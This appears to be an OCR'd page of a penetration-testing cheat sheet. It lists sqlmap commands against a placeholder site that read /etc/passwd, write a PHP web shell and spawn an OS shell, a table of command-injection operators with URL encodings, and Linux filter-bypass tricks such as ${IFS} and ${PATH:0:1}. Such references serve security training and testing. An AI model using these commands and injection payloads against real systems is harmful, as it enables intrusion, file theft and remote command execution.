| `sqlmap -u "http://www.example.com/?id=1" --file-read "/etc/passwd"`    | Reading a local file                                  |
| `sqlmap -u "http://www.example.com/?id=1" --file-write "shell.php" --file-dest "/var/www/html/shell.php"` | Writing a file                                        |
| `sqlmap -u "http://www.example.com/?id=1" --os-shell`                   | Spawning an OS shell                                  |

# Command Injection 

## Injection Operator

| Injection Operator | Injection Character | URL-Encoded Character | Executed Command                        |
|--------------------|---------------------|-----------------------|-----------------------------------------|
| Semicolon          | ;                   | %3b                   | Both                                    |
| New Line           | \n                  | %0a                   | Both                                    |
| Background         | &                   | %26                   | Both (second output generally shown first) |
| Pipe               | \|                  | %7c                   | Both (only second output is shown)      |
| AND                | &&                  | %26%26                | Both (only if first succeeds)           |
| OR                 | \|\|                | %7c%7c                | Second (only if first fails)            |
| Sub-Shell          | ``                  | %60%60                | Both (Linux-only)                       |
| Sub-Shell          | $()                 | %24%28%29             | Both (Linux-only)                       |

# Linux

## Filtered Character Bypass

| Code                     | Description                                        |
|--------------------------|----------------------------------------------------|
| `printenv`               | Can be used to view all environment variables      |

### Spaces

| Code                     | Description                                        |
|--------------------------|----------------------------------------------------|
| `%09`                    | Using tabs instead of spaces                       |
| `${IFS}`                 | Will be replaced with a space and a tab. Cannot be used in sub-shells (i.e. $()) |
| `{ls,-la}`               | Commas will be replaced with spaces                |

### Other Characters

| Code                     | Description                                        |
|--------------------------|----------------------------------------------------|
| `${PATH:0:1}`            | Will be replaced with /                            |
| `${LS_COLORS:10:1}`      | Will be replaced with ;                            |
| `$(tr '!-}' '"-~'<<<[)`  | Shift character by one ([ -> \)                    |
